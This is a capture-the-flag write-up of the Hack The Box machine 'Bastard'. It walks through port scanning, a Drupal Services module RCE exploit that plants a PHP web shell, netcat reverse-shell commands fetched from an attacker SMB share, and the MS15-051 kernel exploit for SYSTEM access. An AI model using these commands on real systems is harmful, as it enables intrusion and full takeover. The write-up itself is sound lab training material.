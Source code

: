 # Bastard

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.84.254
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 04:29 EDT
Nmap scan report for 10.129.84.254
Host is up (0.0072s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown
```

### Drupal

Port 80 was a Drupal Instance:

<figure><img src="../../../.gitbook/assets/image (2139).png" alt=""><figcaption></figcaption></figure>

This box is really old, the intended exploit is to use Drupal Module RCE. Here's the PoC:

{% embed url="https://www.exploit-db.com/exploits/41564" %}

We need to edit the top of the script to have the correct URL and endpoints accordingly:

```php
$url = 'http://10.129.84.254';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'test.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
```

Then, we can run the exploit:

```
$ php exploit.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.129.84.254/test.php

$ curl -G --data-urlencode 'cmd=whoami' 'http://10.129.84.254/test.php'
nt authority\iusr
```

We now have RCE, and getting a reverse shell can be done through `nc.exe`.&#x20;

```
$ curl -G --data-urlencode 'cmd=\\10.10.14.2\share\nc64.exe -e cmd.exe 10.10.14.2 4444' 'http://10.129.84.254/test.php'
```

<figure><img src="../../../.gitbook/assets/image (2620).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

## Privilege Escalation --> Kernel

This is a really old machine, so tehre's bound to be some Windows Kernel exploit that we can use.&#x20;

```
C:\Users\dimitris>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          30/4/2023, 11:27:25 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.559 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.578 MB
Virtual Memory: In Use:    517 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.84.254
```

`SeImpersonatePrivilege` is also enabled, making this an easy exploit. For this particular case, we can use MS15-051.&#x20;

{% embed url="https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip" %}

When run, we can see that it works:

```
C:\Windows\Tasks>\\10.10.14.2\share\ms15-051x64.exe "whoami" 
\\10.10.14.2\share\ms15-051x64.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2268 created.
==============================
NT AUTHORITY\SYSTEM
```

We can run another reverse shell easily:

```
C:\Windows\Tasks>\\10.10.14.2\share\ms15-051x64.exe "\\10.10.14.2\share\nc64.exe -e cmd.exe 10.10.14.2 4444"
\\10.10.14.2\share\ms15-051x64.exe "\\10.10.14.2\share\nc64.exe -e cmd.exe 10.10.14.2 4444"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2400 created.
```

<figure><img src="../../../.gitbook/assets/image (1696).png" alt=""><figcaption></figcaption></figure>

Rooted!
